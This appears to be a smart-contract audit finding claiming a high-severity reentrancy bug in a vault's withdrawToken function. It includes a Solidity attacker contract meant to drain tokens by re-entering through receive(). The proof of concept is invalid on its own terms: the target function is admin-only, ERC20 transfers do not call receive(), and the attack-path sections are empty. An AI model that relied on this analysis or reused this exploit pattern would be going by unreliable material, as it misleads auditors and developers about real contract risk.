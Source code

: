 Sweet Hickory Pangolin

High

# Reentrancy Attacks at  withdrawToken functions for ManageableVault contract

### Summary

Link: https://github.com/sherlock-audit/2024-08-midas-minter-redeemer/blob/main/midas-contracts/contracts/abstract/ManageableVault.sol#L189

The contract is managing tokens and performing transfers. There are no reentrancy guards (e.g., using the nonReentrant modifier) on functions that interact with external contracts or transfer tokens, such as withdrawToken. This could allow a reentrancy attack where an attacker calls back into the contract before the initial function execution completes, potentially draining funds or causing other unexpected behavior.

### Root Cause

Reentrancy guard missing

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Reentrancy attack draining funds or causing other unexpected behavior.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

contract ManageableVault {
    using SafeERC20 for IERC20;

    // Address of the admin with special privileges
    address public admin;

    constructor() {
        admin = msg.sender;
    }

    modifier onlyVaultAdmin() {
        require(msg.sender == admin, "Not authorized");
        _;
    }

    function withdrawToken(
        address token,
        uint256 amount,
        address withdrawTo
    ) external onlyVaultAdmin {
        // Vulnerable to reentrancy
        IERC20(token).safeTransfer(withdrawTo, amount);
    }
}

```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./ManageableVault.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ReentrancyAttacker {
    ManageableVault public vault;
    address public token;
    uint256 public attackCount;

    constructor(address _vault, address _token) {
        vault = ManageableVault(_vault);
        token = _token;
    }

    function attack() external {
        // Start the attack by withdrawing tokens
        vault.withdrawToken(token, 1 ether, address(this));
    }

    // Fallback function that will be triggered on receiving tokens
    receive() external payable {
        if (attackCount < 10) {
            attackCount++;
            // Re-enter the vault to withdraw tokens again
            vault.withdrawToken(token, 1 ether, address(this));
        }
    }

    // Function to withdraw stolen tokens
    function withdrawStolenTokens() external {
        IERC20(token).transfer(msg.sender, IERC20(token).balanceOf(address(this)));
    }
}

```
Vulnerable Contract:

The withdrawToken function is vulnerable because it directly transfers tokens to an external address before updating any state or locking the execution.
Attacker Contract:

The attack() function initiates the withdrawal of tokens from the vault.
The receive() function is automatically called upon receiving tokens, allowing the contract to re-enter the withdrawToken function and continue draining funds.
Deploy and Execute the PoC:
Deploy the ManageableVault contract.
Deploy the ReentrancyAttacker contract, passing the address of the deployed ManageableVault contract and the token address.
Fund the ManageableVault contract with some tokens.
Call the attack() function from the attacker contract to start the attack.

### Mitigation

To prevent this reentrancy attack, the withdrawToken function should be updated to use the "checks-effects-interactions" pattern, where state changes are made before external calls, or by using reentrancy guards.